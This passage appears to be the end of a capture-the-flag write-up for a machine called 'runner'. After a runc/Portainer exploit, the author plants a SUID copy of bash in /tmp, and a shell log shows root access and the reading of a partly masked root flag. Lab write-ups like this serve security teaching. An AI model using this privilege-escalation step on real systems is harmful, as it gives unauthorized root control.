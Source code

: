Win:

![runc exploit complete]({{ page.img }}_portainer_console_root.png)

I decided to copy /bin/bash to tmp then make it an suid for true root.

```bash
john@runner:/opt/portainer$ ls /tmp
bash
john@runner:/opt/portainer$ /tmp/bash -p
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt
7be08b7dd2f838------------------
bash-5.1# 
```
